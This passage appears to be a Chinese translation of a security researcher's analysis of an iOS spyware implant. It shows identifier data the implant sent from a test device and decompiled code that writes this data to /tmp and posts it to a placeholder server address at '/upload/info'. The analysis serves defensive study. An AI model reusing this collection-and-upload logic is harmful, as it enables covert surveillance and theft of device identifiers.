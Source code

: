 这是在我的一个测试设备上运行植入代码时发送到服务器的输出数据：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
&lt;key&gt;PhoneNumber&lt;/key&gt;
&lt;string&gt;+447848473659&lt;/string&gt;
&lt;key&gt;SerialNumber&lt;/key&gt;
&lt;string&gt;F4GW60LKJC68&lt;/string&gt;
&lt;key&gt;freedisk&lt;/key&gt;
&lt;string&gt;48.63801&lt;/string&gt;
&lt;key&gt;iccid&lt;/key&gt;
&lt;string&gt;8944200115179096289&lt;/string&gt;
&lt;key&gt;imei&lt;/key&gt;
&lt;string&gt;352990092967294&lt;/string&gt;
&lt;key&gt;name&lt;/key&gt;
&lt;string&gt;Ian Beer’s iPhone&lt;/string&gt;
&lt;key&gt;net&lt;/key&gt;
&lt;string&gt;Wifi&lt;/string&gt;
&lt;key&gt;platform&lt;/key&gt;
&lt;string&gt;iPhone10,4&lt;/string&gt;
&lt;key&gt;totaldisk&lt;/key&gt;
&lt;string&gt;59.59484&lt;/string&gt;
&lt;key&gt;version&lt;/key&gt;
&lt;string&gt;12.1.2&lt;/string&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```

此方法从设备收集大量标识符：
- iPhone型号
- iPhone名称
- SIM卡的[ICCID](https://en.wikipedia.org/wiki/SIM_card#ICCID)，用于唯一标识SIM卡
- iPhone序列号
- 当前的电话号码
- iOS版本
- 可用磁盘空间总和
- 当前活动的网络接口（wifi或蜂窝网络）
构建一个包含所有这些信息的Objective-C字典对象，然后使用[NSUUID](https://developer.apple.com/documentation/foundation/nsuuid?language=objc)类生成一个伪随机的唯一字符串。他们使用该字符串在/ tmp 下创建一个新文件，例如/ tmp / 68753A44-4D6F-1226-9C60-0050E4C00067 。它们将字典对象作为XML序列化到该文件中，并返回字典@ `{`@“device.plist”：path`}`，将名称“ device.plist ” 映射到/ tmp中的路径。在整个植入代码文件中使用都是这种将所有内容序列化为/ tmp中文件的设计模式。

[ServeruploadDevice]将返回的@ `{`@“device.plist”：path`}` 字典传递给[Service postFiles] ：

```
[self postFiles:info remove:1]
```

```
-[Service postFiles:files remove:] `{`
  if([[files allKeys] count] == 0) `{`
    return;
  `}`

  sem = dispatch_semaphore_create(0.0)

  base_url_str = [
    [@"http://X.X.X.X" stringByTrimmingCharactersInSet:
                         [NSCharacterSet whitespaceAndNewlineCharacterSet]]]

  full_url_str = [base_url_str stringByAppendingString:@"/upload/info"]

  url = [NSURL URLWithString:full_url_string]
```